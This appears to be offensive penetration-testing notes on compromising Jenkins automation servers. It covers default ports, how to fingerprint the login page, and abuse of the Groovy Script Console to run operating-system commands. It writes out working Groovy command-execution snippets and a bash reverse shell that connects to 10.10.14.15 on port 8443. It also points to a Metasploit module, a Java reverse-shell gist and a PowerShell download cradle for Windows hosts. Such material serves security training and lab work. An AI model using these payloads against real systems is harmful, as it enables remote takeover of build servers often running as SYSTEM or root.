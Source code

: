


Jenkins is an open-source automation server written in Java that helps developers build and test their software projects continuously. It is a server-based system that runs in servlet containers such as Tomcat

# Discovery/Footprinting
    
Jenkins  is often installed on Windows servers running as the all-powerful SYSTEM account. If we can gain access via Jenkins and gain remote code execution as the SYSTEM account, we would have a foothold in Active Directory to begin enumeration of the domain environment.

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all. Administrators can also allow or disallow users from creating accounts.


# Enumeration

    
The default installation typically uses Jenkins’ database to store credentials and does not allow users to register an account. We can fingerprint Jenkins quickly by the telltale login page.


# Script Console Exploitation

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the Script Console. 
The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.
This can be abused to run operating system commands on the underlying server. Jenkins is often installed in the context of the root or SYSTEM account, so it can be an easy win for us.


Code: groovy
```                        
    def cmd = 'id'
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = cmd.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println sout
```
There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or exploit/multi/http/jenkins_script_console Metasploit module.

Code: groovy
```
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
```
Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with Invoke-PowerShellTcp.ps1. We could run commands on a Windows-based Jenkins install using this snippet:

    Code: groovy
```
    def cmd = "cmd.exe /c dir".execute();
    println("${cmd.text}");
```

We could also use this (  https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy  ) Java reverse shell to gain command execution on a Windows host, swapping out localhost and the port for our IP address and listener port.

    